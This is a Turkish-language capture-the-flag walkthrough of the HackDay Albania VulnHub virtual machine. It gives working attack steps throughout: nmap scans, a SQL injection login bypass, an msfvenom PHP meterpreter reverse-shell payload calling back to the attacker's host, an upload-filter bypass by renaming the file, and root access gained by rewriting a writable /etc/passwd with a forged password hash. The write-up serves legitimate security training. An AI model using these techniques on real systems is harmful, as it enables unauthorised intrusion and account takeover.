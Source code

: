 #   Hackaday Albania CTF

Selam,
HackDay Albania CTF 2016’da kullanılan sanal makinanın tam çözümünü yaptık, sizlerle paylaşmak istedik. Keyifli okumalar.

#   HackDay Albania CTF

VM hakkında ayrıntılı bilgi alabileceğiniz ve indirme bağlantısını bulabileceğiniz link aşağıdadır

[VulnHub](https://www.vulnhub.com/entry/hackday-albania,167/)

#   VM çözümü

İlk önce kendi sistemimizin nasıl bir ağ yapılandırması ile çalıştığını öğrenmek için

    ifconfig

komutu ile kendi IP adresimizi ve Subnet Mask’ımızı öğrenip(192.168.1.0/24 ağında bulunuyorum)

    nmap 192.168.1.1/24

komutunu kullanarak içinde bulunduğumuz ağda bulunan diğer cihazları bulmak için nmap aracını **192.168.1.1/24** ağına yönelik normal tarama yapması için çalıştırıyoruz. Tarama sonucunda, **192.168.1.10** IP adresine sahip hedefimizin üzerinde; 22 TCP portunda SSH, 8008 TCP portunda bir HTTP servisinin açık olduğunu keşfediyoruz.

![screenshot](screenshots/01.png)

Fakat normal taramada (ki bu top 1000 porttur) açık olmayan, ama servis verir durumda olan bir port olup olmadığını öğrenmek için hedef sisteme standart tarama yerine birde ayrıca full port taraması yapıyoruz, böylelikle top 1000 port arasında olmayan ama servis verir yani açık durumda olan portları da tespit edebilriz.
Örnek olarak, kendi sistemimizde bulunan SSH servisini normalde hizmet vermesi gereken 22 numaralı porttan 1996 portuna taşırsak normal tarama ve full port tarama sonucu aşağıdaki gibi olacaktır.

![screenshot](screenshots/02.png)


    nmap -n -p 1-65535 -sV 192.168.1.10 --open
    
ile tüm açık tcp portlarını listeliyoruz ancak bunlara ek açık bir port göremiyoruz
bunun üzerine HTTP portuna yönelip browserımızda

    192.168.1.10:8080
    
adresine gitmeyi deniyoruz. 8008 portunu belirtmek zorundayız çünkü HTTP 
varsayılan portu 80 dir ve browser 80 portunu deneyeceği için hata alıcaktır.
Siteye girdiğimizde bizi Elliot Alderson yani nam-ı diğer Mr.Robot
karşılıyor ve bilmediğimiz bir dilde yazılmış birkaç satır translateden
çevirince çok anlamlı çıkmasa da arnavutça yazılmış **nereye gideceğini
bildiğini** ifade ediyor. Sayfa kodlarında da birşey bulamayınca, 
hemen adresi **owasp zap* aracında tarattığımızda birşey gözümüze çarpıyor:

    robots.txt
    

![screenshot](screenshots/03.png)


içerisindeki adresleri denediğimizde de hep aynı sayfa ve kaynak
kodlarında da ekstra birşey bulamıyoruz.


![screenshot](screenshots/04.png)


Fakat ortalara doğru

    /unisxcudkqjydw 

adresini girdiğimizde farklı bir sayfa ve bir ipucuyla karşılaşıyoruz


![screenshot](screenshots/05.png)


tabi hemen ipucunu değerlendirip sonuna ekliyoruz. Yani adresi

    192.168.1.10:8008/unisxcudkqjydw/vulnbank/

haline getiriyoruz ve gelen sayfadaki client linkini denediğimizde de bizi çok 
güvenli olduğunu iddia eden bir banka karşılıyor. Tabiki aklımıza hemen sql
geliyor ve tepki ölçmek adına kullanıcı ve parola kısmına birer tırnak(')
koyuyoruz. Oltaya takılan balık ilk başta bizi çok heyecanlandırıyor.


![screenshot](screenshots/06.png)


MySQL servisi kullanıldığını ve istismar et beni dercesine bakan bir mesajı
görüyoruz. Hemen büyük bir özgüvenle 

    ' or '1' = '1

olarak bilinen genel yöntemi deniyoruz ancak çok ta sazan olmadığını
kanıtlarcasına bizi başta ürküten bir hata alıyoruz:


    Invalid Credentials...


tabi pes etmeyip bikaç genel geçer yöntem daha deniyoruz ancak o bize biz
ona bakıyoruz. Sonra yorum satırı haline getirsek nolur diye düşünüp
username ve password'e:

    ' or 'aucc' = 'aucc';#

yazarak (sadece username'e yazıp password'ü gereksiz doldursanızda olur)
mysql kodunu doğru döndürüp kalan sorguyu yorum haline getiriyoruz
ve 25000 euroluk hesabıyla bizi charles karşılıyor.


![screenshot](screenshots/07.png)


fakat gözümüz hala doymamış olacakki sistem hedefinden şaşmayıp sağda duran "Contact Support"
kısmında file selecti görünce kalbimiz çarpıyor. Tabi durmayıp

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > aucc.php

ile **192.168.1.5** IP li kali makinemizin 4444 portuna yönlendiren
bir php payloadı üretip onuda raw formatında "aucc.php" adında
bir dosyaya yazıyoruz ve metasploitimizi de resimdeki gibi hazırlayıp


![screenshot](screenshots/08.png)


bizi renklerle kandıracağını düşünenlere de mesajımızı vererek
"aucc.php" yi yüklemeye çalışıyoruz 


![screenshot](screenshots/09.png)


fakat hacklendikten sonra artık sadece jpg ve türevi kabul ediyoruz diyerek bize kapıyı gösteriyor.


![screenshot](screenshots/10.png)


Bizde al sana jpg diyip "aucc.php" nin adını "aucc.jpg" olarak olarak değiştirip
yepyeni bir sticker göndermesiyle yüklüyoruz. 


![screenshot](screenshots/11.png)


Ve dosyayı yedirmeyi başardık. Fakat msfconsole hala bekliyor yani bizim bu dosyayı açtırmamız lazım.
bıraktığımız Ticketın üzerine tıklayıp, sistem "aucc.jpg" dosyasını açmaya çalışınca
msfconsole da bir hareketlilik baş gösteriyor ve meterpreter konsolundayız. Bana göre sahte kısmı burada
başlıyor çünkü normal sistemlerde karşımıza kolay kolay çıkmayacak olan olayla burada karşılaştım.

    /etc/group

dosyasından sudo yetkisine sahip kullanıcılara baktığımda 'taviso'yu görüp ona erişmeyi denesemde çözüm
bu olmadığından başaramadım. Fakat dediğim gibi karşımıza kolay kolay çıkmicak şekilde

    /etc/passwd 

nin izinlerine baktığımızda write iznini farkediyoruz. Tabi "meterpreter" dan bunu editlemek biraz
sancılı olacağı için

    download /etc/passwd

ile kaliye hedef makinenin passwd dosyasını indiriyoruz. eski linux sistemler şifreleri(hashlenmiş parolaları) de bu dosyada tutuyordu
fakat daha sonra istismar edilebilirliği daha doğrusu "bruteforce" u engellemek adına şifreleri **/etc/shadow** a
taşıyarak eskiden şifrelerin olduğu yere bir "x" bıraktılar ve bu yolla parola kontrolü için shadow a yönlendirme yaptılar.
shadow un okuma iznide yalnız rootta olduğu için bence "şimdilik yeterince güvenli" bir işe imza attılar. Bu bilgiyi kullanarak

    openssl passwd -1 -salt tuzlu aucc

ile passwd formatında md5(-1) tipinde "tuzlu" ile saltlanmış yani bruteforce u zorlaştırmak adına önlem alınmış ve parola olarak 'aucc'nin 
hashini üretiyoruz ve çıktı olarak :

    $1$tuzlu$LewyIW83SjgyBrkI29SWh0

alıp bunu herhangi bir editörde "taviso"nun yanındaki 'x' in yerine yapıştırıyoruz(x'i siliyoruz) ve kaydedip çıkıyoruz. 


![screenshot](screenshots/12.png)


Rootun parolasını da değiştirebilik ancak ben sudo yetkili kullanıcıyı tercih ettim. Düzenlediğimiz bu dosyayı tekrar meterpreterdan

    upload passwd /etc/passwd

ile hedef sistemdeki passwd nin yerine yüklüyoruz. Artık SSH ile bağlanıp doğru düzgün bir shellde devam edebiliriz.

    ssh taviso@192.168.1.10

ile bağlantımızı kurup parola olarak 

    aucc

yazıyoruz ve içerdeyiz. Son olarak flagi **/root** dizininde bulup

![screenshot](screenshots/13.png)

    cat /root/flag.txt

ile flagi bastırıp flagı gördüğümüze göre sanal makinemizde işimizi bitiriyoruz.
FLAG:

    **Urime,**

    **Tani nis raportin!**

    **(arnavutça "tebrikler, şimdi rapor başlıyor!" yazıyor ve flagi veriyor)**

#   d5ed38fdbf28bc4e58be142cf5a17cf5



